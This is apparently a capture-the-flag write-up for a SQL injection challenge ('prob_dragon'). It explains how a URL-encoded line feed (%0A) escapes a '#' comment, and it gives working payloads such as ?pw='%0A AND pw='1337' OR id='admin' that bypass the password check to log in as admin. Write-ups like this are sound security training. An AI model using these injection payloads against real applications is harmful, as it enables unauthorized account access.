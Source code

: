 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 20
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/468d8f1f-52df-469c-b3d7-ab9fe0a496f0)

We are provided with the SQL query:

```sql
SELECT id FROM prob_dragon WHERE id='guest'# AND pw='{$_GET[pw]}'
```

As we can see, the code comments out the part where our input is inserted within the query.

We can get around this by using the Line Feed (`%0A`) character, which causes the rest of the SQL query to be pushed onto the next line. The Hash (`#`) only only comments out the query on the same line.

If we provide the following URI parameter:

```
?pw='%0A OR id='admin' 
```

The resultant query becomes:

```sql
SELECT id FROM prob_dragon WHERE id='guest'# AND pw=''
OR id='admin' 
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/92b67e86-55ba-43de-9032-fa1b61ee5fa7)

As we can see, the `OR id='admin'` part is not commented out, just as expected.

Since we want the second part of the query to be executed, we have to make the first part return `False`. We can do so by providing the following URI parameter:

```
?pw='%0A AND pw='1337' OR id='admin' 
```

The resultant query becomes:

```sql
SELECT id FROM prob_dragon WHERE id='guest'# AND pw=''
AND pw='1337' OR id='admin' 
```

Since there is no `id='guest'` with `pw='1337'`, the first part will return `False`.

![3](https://github.com/Kunull/Write-ups/assets/110326359/a2f5e482-30c0-4e1a-96a7-ce87efaabced)
